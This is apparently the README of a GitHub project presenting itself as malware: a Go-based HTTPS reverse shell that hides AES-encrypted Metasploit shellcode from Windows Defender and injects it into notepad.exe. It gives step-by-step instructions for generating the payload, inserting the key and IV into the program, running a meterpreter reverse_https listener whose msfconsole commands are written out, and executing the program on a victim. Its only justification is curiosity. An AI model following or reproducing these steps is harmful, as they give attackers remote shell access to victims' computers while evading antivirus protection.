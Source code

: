 # kaldrexx
![Go](https://img.shields.io/badge/go-%2300ADD8.svg?style=for-the-badge&logo=go&logoColor=white)
![Windows](https://img.shields.io/badge/Windows-0078D6?style=for-the-badge&logo=windows&logoColor=white)
![C](https://img.shields.io/badge/c-%2300599C.svg?style=for-the-badge&logo=c&logoColor=white)
![Shell Script](https://img.shields.io/badge/shell_script-%23121011.svg?style=for-the-badge&logo=gnu-bash&logoColor=white)
### A simple HTTPS reverse shell malware implementation written in Go, evading Windows Defender detection via AES

### Previews
![kaldrexx_1](./readme_pictures/kaldrexx_1.png)
- It looks like `notepad.exe` has spawned, but the malicious script artifically generated via msfconsole got injected as `CreateRemoteThread` WINAPI function, even though Windows Defender's "real time protection" is activated.

![kaldrexx_2](./readme_pictures/kaldrexx_2.png)
- If the attacker(red team)'s server is connected to the victim, reversed HTTPS shell will provide shell interface to interact with victim's device, as long as shellcode-injected target process runs on the victim.

### Hands on
1. Prepare your Kali Linux or other available systems that can use `msfconsole`(metasploit console). 
2. Make sure that the victim and the attacker is connected.
3. Run `utility/createShellcode.sh` on the attacker's device to get AES key, AES IV(Initialize Vector), and encryped shell script
4. At `main.go`, replace the values of variables `maliciousShellcodeBytes`(Encrypted shell code. Decryption will be automatically perform), `aesKey`, and `aesInitialVector` to yours. Refer to the original `main.go`'s code.
5. Return to the attacker's msfconsole, and ready to receive the victim's reverse shell connection.
```
attacker@readteam-kali:~# msfconsole
msf > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/x64/meterpreter/reverse_https
msf exploit(handler) > set LHOST 0.0.0.0
msf exploit(handler) > set LPORT 443
msf exploit(handler) > exploit
```
6. Run the exploit code(`main.go`) at victim. (Either directly run `main.go` with `go run` command or execute the program after building work the same.)

### Q&A
- Why did you suddenly make this? - I was just curious.